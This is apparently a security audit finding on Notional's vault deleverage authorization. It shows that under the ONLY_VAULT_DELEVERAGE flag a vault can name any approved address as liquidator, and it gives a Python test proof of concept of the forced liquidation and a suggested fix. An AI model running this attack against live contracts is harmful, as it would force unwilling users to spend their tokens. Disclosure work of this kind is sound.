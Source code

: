 Arbitrary-Execution
# When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Summary
When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Vulnerability Detail
When the `ONLY_VAULT_DELEVERAGE` flag is set, only the vault address itself can call `deleverageAccount` in `VaultAccountAction.sol`. This is enforced via the `_authenticateDeleverage` function:

```solidity
// Authorization rules for deleveraging
if (vaultConfig.getFlag(VaultConfiguration.ONLY_VAULT_DELEVERAGE)) {
    require(msg.sender == vault, "Unauthorized");
} else {
    require(msg.sender == liquidator, "Unauthorized");
}
```

However, inside the `if` block when the `ONLY_VAULT_DELEVERAGE` flag is set, the `require` statement only checks that `msg.sender == vault`. This check is different from the other check in the `else` block as it does not check that the passed-in `liquidator` address is also the vault address. This means the vault address can supply _any_ address as the liquidator, which is ultimately the address that has to pay the token amount to liquidate an unhealthy vault account. As long as the unwilling liquidator meets the following conditions it can be forced to liquidate accounts by the vault:

1. The liquidator has enough of the underlying tokens necessary for liquidation.
2. The liquidator has approved the Notional proxy address with enough tokens necessary for liquidation.
3. The liquidator does not already have a position in the vault whose maturity is different from the one of the unhealthy account.

## Impact
A vault account can force _any_ address to liquidate an unhealthy vault account so long as the above conditions are met, even if the liquidation would be unprofitable for the liquidator.

## Code Snippet
PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`):
```python3
def test_deleverage_account_from_vault_with_different_account(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True, ONLY_VAULT_DELEVERAGE=1)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    vaultAccount = accounts.at(vault.address, force=True)

    # The vault account does not have any DAI/cDAI that would be necessary to liquidate an account
    assert environment.token["DAI"].balanceOf(vaultAccount) == 0
    assert environment.cToken["DAI"].balanceOf(vaultAccount) == 0

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    assert accountInfo["maturity"] == 0

    # Notice how the liquidator here is accounts[2], but the caller is the vault account.
    # accounts[2] meets the 3 requirements:
    # 1) holds enough DAI/cDAI to liquidate an account
    # 2) has approved the Notional proxy to transfer tokens (maybe they are interacting with other
    #    functionality within Notional)
    # 3) does not currently hold a maturity in the vault
    environment.notional.deleverageAccount(
        accounts[1], vault.address, accounts[2], 1_000e8, True, "", {"from": vaultAccount}
    )

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    # accounts[2] now has a position in the vault due to the forced liquidation
    assert accountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider adding a check to `_authenticateDeleverage` to ensure that when the `ONLY_VAULT_DELEVERAGE` flag is set the vault account can only set the liquidator to be itself or its owner address.
